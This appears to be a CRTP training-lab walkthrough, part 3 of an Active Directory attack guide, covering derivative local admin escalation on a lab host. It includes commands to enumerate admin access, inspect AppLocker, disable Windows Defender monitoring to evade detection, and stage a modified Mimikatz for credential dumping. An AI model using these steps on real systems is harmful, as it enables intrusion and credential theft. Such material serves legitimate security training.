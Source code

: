 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 3)
author: beardenx
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 6: Derivative Local Admin Escalation**

**Objective**: Escalate privileges to domain admin using derivative local admin access on dcorp-adminsrv.

### **Identify Machines with Local Admin Access**
- Use Find-PSRemotingLocalAdminAccess.ps1 PowerShell script to identify machines where local admin privileges are available.

```bash
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
- Note down dcorp-adminsrv as having local admin privileges.


### **Check Applocker Configuration**

- Verify Applocker policy on dcorp-adminsrv to understand script execution permissions.

```bash
winrs -r:dcorp-adminsrv reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script
```

- Confirm the presence of Applocker rules allowing scripts from %PROGRAMFILES% and %WINDIR%.

### **Inspect Applocker Policy via PowerShell**

- Enter a PowerShell session on dcorp-adminsrv to check Applocker policy details.

```bash
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode  # Confirm Constrained Language Mode
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```

- Ensure scripts from %PROGRAMFILES% are allowed for the Everyone group.

### **Disable Windows Defender Real-time Monitoring**

- Disable Windows Defender real-time monitoring on dcorp-adminsrv to evade antivirus detection.

```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### **Modify and Transfer Invoke-Mimikatz**

- Due to Constrained Language Mode restrictions, modify Invoke-Mimikatz.ps1 to embed function calls and create Invoke-MimikatzEx.ps1.
- Transfer the modified script (Invoke-MimikatzEx.ps1) from your local machine to dcorp-adminsrv.
